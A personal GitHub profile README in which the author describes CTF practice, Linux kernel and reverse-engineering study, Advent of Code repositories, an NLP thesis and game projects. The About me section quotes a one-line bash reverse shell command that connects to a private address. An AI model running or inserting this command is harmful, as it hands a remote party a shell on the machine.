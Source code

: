 <p align="left"> <img src="https://komarev.com/ghpvc/?username=marc-gav&label=Profile%20views&color=0e75b6&style=flat" alt="marc-gav" /> </p>

## About me
Probably my favourite thing about technology is the concept of hacking: "Playful solving of technical work that requires deep understanding, especially of a computer system."

In my free time I like to get increasingly deep understanding of different technologies and apply it to solving CTF challenges: You can find some of my solutions in this repo: https://github.com/marc-gav/picoCTF_solutions. I stopped adding new solutions because honestly you can find better write-ups for picoCTF on youtube from people that know more than me.

I am currenly learning about the Linux kernel, reverse engineering and network protocols. Slightly unrelated, after a couple years of using bash I discovered this snippet of code: `bash -i >& /dev/tcp/10.0.0.1/8080 0>&1`. I think it's beautiful to think of the different ideas that need to come together into one single bash command to form a reverse shell.

## Previously working on

- Every december I participate in the Advent of Code coding challenges (algorithmic): https://adventofcode.com/. You can find my previous solutions here:
  - 2022 (Python): https://github.com/marc-gav/advent2022
  - 2021 (Python): https://github.com/marc-gav/advent-of-code-2021
  - 2020: (C++): https://github.com/marc-gav/AdventOfCode2020
  - 2019: (Python): https://github.com/marc-gav/Advent_code_19
- In 2022 I worked on my Master's thesis in NLP (Natural Language Processing, Machine Learning). You can read more about it here: https://github.com/marc-gav/MasterThesis
- During 2017/18/19 I participated in various game development projects and Game Jams. The most advanced game my team and I created was Aqueron: https://github.com/marc-gav/cdvAqueron

## 📫 How to reach me.
Add this code to your message so I have a bit more confidence that you are not spam: **MJzwT3Bk**
- **https://www.linkedin.com/in/marcgavilangil/**
- **marcgavilangil@gmail.com**
